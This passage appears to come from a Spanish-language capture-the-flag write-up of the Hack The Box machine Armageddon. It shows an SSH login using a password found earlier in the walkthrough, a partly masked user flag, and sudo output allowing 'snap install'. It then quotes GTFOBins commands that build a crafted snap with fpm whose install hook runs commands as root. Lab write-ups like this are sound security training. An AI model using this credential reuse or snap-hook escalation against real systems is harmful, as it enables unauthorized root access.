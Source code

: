 Verificamos si podemos acceder al `SSH` del equipo con las credenciales del usuario `brucetherealadmin`. Comprobamos el acceso y de la flag **user.txt**.

```bash
❯ sshpass -p booboo ssh brucetherealadmin@10.10.10.233
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ cat user.txt 
c13d01dd41***********************
```

## Privilege Escalation

### Abusing sudoers privilege (snap)

Revisando de si el usuario actual disponía de algún permiso de `sudoers`, nos encontramos que podía ejecutar como `sudo` el binario de `snap` para instalar paquetes.

{% hint style="info" %}
Un Ubuntu Snap paquete, o simplemente Snap es un formato de distribución similar a AppImage en el que se pretende que sea un "paquete instalable universal" para desplegar software en sistemas Linux
{% endhint %}

```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

A través de la herramienta de [searchbins](https://github.com/r1vs3c/searchbins), realizaremos una consulta para verificar la manera de abusar de este binario que podemos ejecutar como `sudo` para lograr acceso como `root`.

````bash
❯ searchbins -b snap -f sudo

[+] Binary: snap

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/snap/#sudo]

It runs commands using a specially crafted Snap package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
```
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh
%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

	| sudo snap install xxxx_1.0_all.snap --dangerous --devmode
````
